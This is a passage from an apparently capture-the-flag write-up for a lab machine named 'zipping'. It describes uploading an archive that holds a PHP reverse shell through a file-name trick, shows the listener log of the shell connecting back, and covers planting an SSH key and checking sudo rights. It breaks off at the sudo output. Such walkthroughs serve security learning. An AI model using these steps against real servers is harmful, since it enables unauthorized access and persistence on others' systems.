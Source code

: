 ![uploadnamebreak](/assets/img/blog/UploadNameBreak.png)
\
It was successfully uploaded! Following the link we get an 404 and if we remove the lonely extension we can see that the file indeed exists.\
![pathbreak](/assets/img/blogpathbreak.png)\
![revshellpath](/assets/img/blog/revshellpath.png)\
By placing a simple reverse shell php payload in the archive we got a shell on the server!

```console
listening on [any] 5555 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.229] 44816
Linux zipping 5.19.0-46-generic #47-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 16 13:30:11 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 21:35:44 up  1:38,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
rektsu   pts/0    10.10.16.3       20:01    1:32m  0.01s  0.01s -bash
rektsu   pts/1    10.10.16.3       20:11   59:52   0.12s  0.02s sshd: rektsu [priv]
rektsu   pts/3    10.10.14.5       20:16    6:00   0.23s  0.02s sshd: rektsu [priv]
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

## Root.txt

To upgrade the shell I generated an ssh key pair and placed it in the users .`ssh` directory. Now we can access the server in a much more stable ssh connection.\
The first thing I usually check are the user privileges on the system with `sudo -l`

```console
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```
